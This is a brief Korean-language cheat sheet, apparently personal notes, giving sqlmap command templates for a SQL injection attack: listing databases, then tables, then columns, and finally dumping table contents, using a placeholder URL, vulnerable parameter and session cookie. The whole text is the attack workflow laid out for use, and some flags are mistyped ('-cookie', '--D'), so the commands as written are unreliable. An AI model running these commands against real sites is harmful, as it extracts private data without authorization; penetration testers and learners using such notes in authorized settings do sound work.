 ```
sqlmap -u "[URL]" -p [취약 파라미터] -cookie="[세션값]" --dbs 
```
만약에 POST 면 --data="[파라미터]"

DB 고르고 테이블 조회하기
```
sqlmap -u "[URL]" -p [취약 파라미터] -cookie="[세션값]" -D [DB명] --tables
```

특정 테이블의 컬럼 조회하기
```
sqlmap -u "[URL]" -p [취약 파라미터] -cookie="[세션값]" --D [DB명] -T [테이블명] --columns
```
데이터 보려면
```
sqlmap -u "[URL]" -p [취약 파라미터] -cookie="[세션값]" --D [DB명] -T [테이블명] --dump

sqlmap -u "[URL]" -p [취약 파라미터] -cookie="[세션값]" --D [DB명] -T [테이블명] -C [컬럼명] --dump
```
